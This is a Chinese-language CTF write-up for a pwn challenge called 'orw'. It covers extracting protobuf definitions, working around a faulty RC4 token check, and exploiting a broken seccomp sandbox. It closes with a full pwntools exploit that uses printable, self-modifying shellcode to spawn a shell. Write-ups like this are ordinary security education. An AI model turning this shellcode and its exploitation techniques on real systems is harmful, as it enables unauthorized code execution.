




# orw

> 只要你做出来了，你就能拿到这个数，拿不到的话我来给你补

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## seccomp rules

有沙箱，但是无法加载，等效于无沙箱



## 解题思路

### 吃一堑吃一堑

早在半决赛的时候，就有过protobuf的题，那个时候不会做，等到我看到了能提取proto的工具，
我也只是想到需要学一下，结果没想到决赛又考了，而我工具还没下，这下输麻了。

那么现在就来介绍一下北邮✌️写的[这个工具](https://github.com/Rea1Atomic/protobuf-pwn-tool)吧



使用一行命令，这个小工具可以直接将elf里保存的proto导出到文件，
接下来就可以使用protoc工具生成`.h`和`.c`文件，随便写一个空壳文件并include头文件，
然后写一个空的`main`函数，最后`-g`两个文件一起编译，就可以将文件拖入Ghidra中，复制出结构体定义了。

```sh
protoc --c_out=. ez_orw.proto
cat << EOF > c.c
#include "ez_orw.pb-c.h"
int main() {}
EOF
gcc -g c.c ez_orw.pb-c.c
protoc --python_out=. ez_orw.proto
```

最后还原效果如下图所示



最后在脚本中`import ez_orw_pb2`就可以用了。

### RC4加密，对吗？

在运行shellcode前，需要对`giaotoken`做检查，阅读其中的两个函数，
不难发现是RC4加密，但是如果直接用RC4解密，会发现，得到的明文中有00字符，
并且有一些都不是可见字符。仔细检查解密过程，没有错误，难道是他写的RC4实现有问题？

```python
from Crypto.Cipher import ARC4
ciphertext = bytes.fromhex('''
6a 36 af a6 7b a8 5f b9  63 7d 83 c7 0c 1c 8d 91
d3 f2 6e 6b b3 f9 77 f8  bf e2 88 e8 fc ec fd 8e
fd 92 fe 40
''')
key = b'114514giaogiaogiao99'
cipher = ARC4.new(key)
print(cipher.decrypt(ciphertext))
# b'\t\x06PQ\x06\x0c\x02XLVW[TBS\rTX\x14\x00c2e-418608b3bbea'
```

后半部分看起来是正常的，前半部分不太对。尝试将其作为token输入，得到的结果并不正确。
突然我想到RC4的加解密是对称的，只要用gdb修改token为密文，然后让程序运行加密函数，
就可以从内存中拿到明文。正确结果是一个UUID字符串。也就是说，这道题的RC4实现也有问题。

### 坏掉的seccomp

在检查完token后，还要对`giaoid`，`giaosize`以及输入的shellcode做检查，
shellcode必须是可打印字符。还要检查输入的shellcode长度和protobuf长度，
最后应用一个沙箱后执行shellcode。

为了在不输入protobuf的情况下运行沙箱，我选择了用gdb修改rip，让程序直接运行到`prctl`的地方，
好不容易把filter拿出来了，让`seccomp-tools`解析一下，却发现goto跳转的目标行号，
是要比filter的长度长的。这么显然的错误内核自然不会放过，因此沙箱并没有成功加上，
系统调用失败了。后面我们可以直接`execve`拿shell。

### 连起来

最后，设置一下shellcode的最大长度，满足一下各种条件，再写个shellcode就可得到如下脚本。

> 妥妥的烂题，沙箱不会写，RC4不会实现，整道题充斥着烂梗，能出这种题目的家里请什么都没用了。

## EXPLOIT

```python
from pwn import *
import string
import ez_orw_pb2
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './ez_orw'
printable = bytes(string.printable, 'utf-8')

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('', 9999)

    # run until protobuf msg input
    t.sendlineafter(b'DO U', b'0x0')
    t.sendlineafter(b'replenish\n', b'64') # set up shellcode max length
    pie_base = int(t.recv(14), 16) - 0x5008
    success(GOLD_TEXT(f'Got pie_base: {pie_base:#x}'))
    t.sendline(hex(pie_base + 0x3041).encode())

    code = '''
    // mov rbx, rax  # rax == shellcode
    push rax
    pop rbx
    // xor esi, esi; xor edx, edx
    push 0x20
    pop rax
    xor al, 0x20
    push rax
    push rax
    push rax
    pop rsi
    pop rdx
    // 2f2f -> 0f05
    push 0x20202020
    pop rcx
    xor word ptr [rbx + 0x20], cx
    // lea rdi, "/bin/sh"
    xor rax, qword ptr [rbx + 0x22]
    push rax
    push rsp
    pop rdi
    // mov eax, SYS_execve
    push 0x3b
    pop rax
    // syscall
    '''
    shellcode = asm(code) + b'\x2f\x25/bin/sh'
    assert len(shellcode) == 0x20 + 9 and all(byte in printable for byte in shellcode)
    message = ez_orw_pb2.Msgiao()
    message.giaoid = 0x114514
    message.giaosize = 0x415411
    message.giaotoken = b'87dd78e1-9025-4d57-9c2e-418608b3bbea'
    message.giaocontent = shellcode
    success(f'Sending shellcode {shellcode}')
    t.sendafter(b'your giao', message.SerializeToString())

    t.clean()
    t.interactive()
    t.close()
```



## 参考

1. [Rea1Atomic/protobuf-pwn-tool](https://github.com/Rea1Atomic/protobuf-pwn-tool)
